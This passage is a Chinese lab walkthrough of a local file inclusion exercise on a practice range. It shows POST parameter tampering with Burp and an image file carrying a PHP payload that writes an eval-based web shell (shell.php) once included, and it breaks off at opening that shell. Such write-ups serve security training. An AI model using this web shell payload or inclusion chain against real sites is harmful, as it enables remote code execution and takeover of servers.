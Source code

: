 这里看到是post方法传参的，因此需要将page进行post，当你进行传参的时候，其实你是看不到使用什么参数过去的

```bash
http://192.168.70.10:8101/LFI-6/index.php

page=../1.php
```

![image-20241031104745559](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031104745559.png)

##### POST

这时候就需要开启`burp`，拦截消息，查看到我们测试输入的参数被page接收了

可以直接在这里进行修改，把123改为文件路径

或者使用`hackerbar` post

#### get shell

那么应该怎么通过文件包含去`getshell`呢

##### 上传图片码

首先，假设我们通过**文件上传手段**传入了**一张图像**`echo.jpg`，但是图像里面的内容是病毒代码

![image-20241031110615555](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031110615555.png)

```bash
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["shell"])?>');?>
```

> 代码逻辑：创建打开shell.php，在里面写入`<?php eval($_POST[shell])?>`
>

##### 包含图片码

触发创建文件

```bash
http://192.168.70.10:8101/LFI-6/index.php

page=../echo.jpg
```

![image-20241031111710151](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031111710151.png)

然后包含执行`../echo.jpg`，shell.php就被创建出来了



##### 访问shell.php

eval可以把字符串当作命令执行，因此可以执行我们post上去的shell参数中的内容

首先要运行`shell.php`

打开对应shell网址，发现没有内容

```bash
http://192.168.70.10:8101/LFI-6/shell.php
```

